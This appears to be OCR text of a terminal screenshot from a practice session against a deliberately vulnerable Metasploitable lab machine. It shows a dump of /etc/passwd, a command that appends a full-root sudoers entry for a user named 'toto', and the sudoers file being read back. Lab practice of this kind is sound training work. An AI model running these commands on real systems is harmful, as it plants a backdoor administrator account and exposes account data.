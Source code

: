news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
toto:x:1003:1003:,,,:/home/toto:/bin/bash

command echo "toto      ALL=(ALL) ALL" >> /etc/sudoers;
: command not found
command cat /etc/sudoers;
# /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the man page for details on how to write a sudoers file.
#

Defaults        env_reset

# Uncomment to allow members of group sudo to not need a password
# %sudo ALL=NOPASSWD: ALL
